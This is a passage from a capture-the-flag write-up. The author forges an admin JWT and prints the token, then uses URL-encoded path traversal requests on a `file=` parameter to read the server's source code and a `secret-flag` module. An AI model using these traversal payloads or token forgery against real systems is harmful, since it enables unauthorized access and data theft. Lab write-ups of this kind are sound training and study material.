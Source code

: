 I signed the JWT token with the private key using CyberChef (to become admin):
```json
{
    "username": "4dm1n",
    "iat": 1736603649
}
```

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjRkbTFuIiwiaWF0IjoxNzM2NjAzNjQ5fQ.V7LUY3hRFZiGr2tAuug4zBPx6YPD2MrmvClj6AkEZJSL72W4u5BezvysmUWSmpdqz5aD-dfWaa4lYe6MAcMG7hhWyho-lP6ql-2SPLQhTg-CKgDM2MmbiBHpkZGFp1wdWA6enfaD7ccqdLeN-IwKX2chdsN9oxMhVqJNsqIN04H-nNQdKlaRuD75dDH4UFAYnLWHjP1QynDCd7ss7MJZzULXG9cGK-7JeDuAGdHJKypUts0a2mg463FAGMgL6JvoYEn65Tm8NhbeNgIY9d4ETEmjUMu_6LhMbd4EjoI-GsV45N054qW2Y2yFMxZzznMgjzhu-QXwdFJcEQLOK4qyDg
```
> You can also use [https://jwt.io/](https://jwt.io/)

I thought I would be done with the challenge after visiting `/1337_v4u17`, but I was wrong; the challenge was not over...

I was now able to access a page where the "admin" kept their journal.
![](https://i.imgur.com/B7LZYcn.png)

When I clicked on the journal, I was sent to this page: `GET /1337_v4u17?file=vault%2Fjournal1.txt HTTP/1.1`.

This felt like a case of path traversal, so that's what I tried.

I was able to retrieve that path from before via path traversal (`file=vault/../../../../../../usr/src/app/5up3r_53cur3_50urc3_c0d3.js`):
```
GET /1337_v4u17?file=%76%61%75%6c%74%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%75%73%72%2f%73%72%63%2f%61%70%70%2f%35%75%70%33%72%5f%35%33%63%75%72%33%5f%35%30%75%72%63%33%5f%63%30%64%33%2e%6a%73 HTTP/1.1
```
> It looks like a mess because I used Burp's Decoder tool to encode the path traversal input into URL-encoded format.

This is what I found (shortened for convenience):
```js
...
const bodyParser = require('body-parser');
const cookieParser = require('cookie-parser');
const SECRET_FLAG = require('secret-flag')
const app = express();
const PORT = process.env.PORT || 1337;
...
```

I knew I wanted to see what was in `require('secret-flag')`, so I started by searching for `secret-flag.js`, but nothing could be found.

Then I tried `/node_modules/secret-flag/index.js`, which I thought would be the next step to finding the flag, and I was correct.

`file=vault/../../../../../../usr/src/app/node_modules/secret-flag/index.js`
```
GET /1337_v4u17?file=%76%61%75%6c%74%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%75%73%72%2f%73%72%63%2f%61%70%70%2f%6e%6f%64%65%5f%6d%6f%64%75%6c%65%73%2f%73%65%63%72%65%74%2d%66%6c%61%67%2f%69%6e%64%65%78%2e%6a%73 HTTP/1.1
```
